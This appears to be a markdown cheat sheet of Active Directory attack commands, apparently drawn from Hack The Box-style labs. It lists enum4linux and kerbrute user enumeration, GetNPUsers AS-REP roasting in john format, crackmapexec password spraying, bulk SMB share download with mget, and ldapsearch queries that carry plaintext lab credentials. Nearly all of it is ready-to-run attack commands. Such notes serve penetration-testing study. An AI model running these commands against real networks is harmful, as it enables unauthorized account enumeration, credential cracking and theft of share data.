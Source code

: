 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```


- [ ] Kerburate
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```


- [ ] GetNPUsers
```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```


- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```

- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```


## Ldap
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"

ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +

ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'


ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```

